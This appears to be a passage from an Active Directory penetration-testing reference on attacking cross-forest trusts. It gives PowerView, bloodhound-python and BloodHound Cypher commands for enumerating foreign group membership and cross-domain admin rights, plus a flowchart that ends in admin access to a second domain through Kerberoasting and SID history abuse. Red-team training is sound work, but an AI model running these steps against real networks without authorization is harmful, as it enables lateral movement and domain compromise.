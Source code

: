### Foreign Group Membership Abuse

```powershell
# Find users from other domains in local groups
Get-DomainForeignGroupMember -Domain TRUSTED-DOMAIN.LOCAL

# Convert SID to username
Convert-SidToName <FOREIGN_SID>

# Test cross-forest administrative access
Enter-PSSession -ComputerName TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -Credential CURRENT-DOMAIN\ADMIN-USER
```

### Cross-Forest BloodHound Analysis

#### Data Collection

```bash
# Configure DNS for trusted domains
sudo nano /etc/resolv.conf
# domain CURRENT-DOMAIN.LOCAL
# nameserver <CURRENT_DC_IP>

# Collect from primary domain
bloodhound-python -d CURRENT-DOMAIN.LOCAL -dc CURRENT-DC -c All -u USERNAME -p PASSWORD

# Update DNS and collect from trusted domain
# domain TRUSTED-DOMAIN.LOCAL  
# nameserver <TRUSTED_DC_IP>
bloodhound-python -d TRUSTED-DOMAIN.LOCAL -dc TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -c All -u USERNAME@CURRENT-DOMAIN.LOCAL -p PASSWORD

# Package data
zip -r cross_forest_bh.zip *.json
```

#### Key BloodHound Queries

```cypher
-- Find users with foreign domain group membership
MATCH (u:User)-[r:MemberOf]->(g:Group) 
WHERE u.domain <> g.domain 
RETURN u,r,g

-- Find cross-domain admin relationships
MATCH (u:User)-[r:AdminTo]->(c:Computer)
WHERE u.domain <> c.domain
RETURN u.name, u.domain, c.name, c.domain
```

### Cross-Forest Attack Flow

```mermaid
graph TD
  A[Compromise Domain A] --> B[Enumerate Trust Relationships]
  B --> C[Identify Bidirectional Forest Trust]
  C --> D[Cross-Forest Kerberoasting]
  D --> E[Check Admin Password Re-use]
  E --> F[Enumerate Foreign Group Membership]
  F --> G[Test SID History Abuse]
  G --> H[Gain Admin Access to Domain B]
```
